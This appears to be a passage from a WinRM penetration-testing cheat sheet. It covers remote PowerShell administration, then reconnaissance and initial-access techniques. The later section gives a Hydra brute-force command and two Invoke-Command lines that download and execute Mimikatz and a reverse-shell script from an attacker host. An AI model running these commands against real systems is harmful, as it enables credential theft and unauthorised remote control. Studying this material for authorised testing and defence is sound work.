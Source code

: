 #### Advanced WinRM Usage

1. **Executing Scripts on a Remote Machine**: Executes a PowerShell script on the remote machine.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -FilePath C:\local\path\script.ps1 -Credential <username>
    ```
2. **Running Background Jobs on Remote Machines**: Executes a process on the remote system as a background job.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Start-Process notepad.exe } -Credential <username> -AsJob
    ```
3. **Setting Up Persistent Remote Sessions**: Creates and enters a persistent session with the remote system, allowing for multiple commands to be executed without re-authenticating.
    ```powershell
    $session = New-PSSession -ComputerName <target_ip> -Credential <username>
    Enter-PSSession -Session $session
    ```
4. **Executing Commands as a Different User**: Runs a command on the remote system under a different user account.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Start-Process notepad.exe -Credential (Get-Credential) -ArgumentList 'test' }
    ```
5. **Checking WinRM Logs for Troubleshooting**: Retrieves logs related to WinRM operations, useful for troubleshooting connection issues.
    ```powershell
    Get-WinEvent -LogName Microsoft-Windows-WinRM/Operational
    ```

# Penetration Testing Techniques

#### External Reconnaissance

1. **Checking if WinRM is Enabled**: Scans for the presence of WinRM on the target machine by checking if ports 5985 (HTTP) and 5986 (HTTPS) are open.
    ```bash
    nmap -p 5985,5986 <target_ip>
    ```
2. **Identifying WinRM Version**: Uses `nmap` scripts to identify the version of WinRM running on the target machine.
    ```bash
    nmap --script=http-winrm-info -p 5985 <target_ip>
    ```

#### Initial Access

1. **Brute Force WinRM Credentials**: Uses Hydra to brute force WinRM credentials over HTTP.
    ```bash
    hydra -L usernames.txt -P passwords.txt <target_ip> -s 5985 http-get /wsman
    ```
2. **Using Mimikatz with WinRM**: Downloads and executes Mimikatz on the remote system via WinRM.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Invoke-Expression -Command (New-Object System.Net.WebClient).DownloadString('http://<attack_ip>/mimikatz.ps1') } -Credential <username>
    ```
3. **Deploying a Reverse Shell**: Deploys a reverse shell on the remote system by downloading a PowerShell script from the attacker's server.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { IEX (New-Object Net.WebClient).DownloadString('http://<attack_ip>/reverse.ps1') } -Credential <username>
    ```
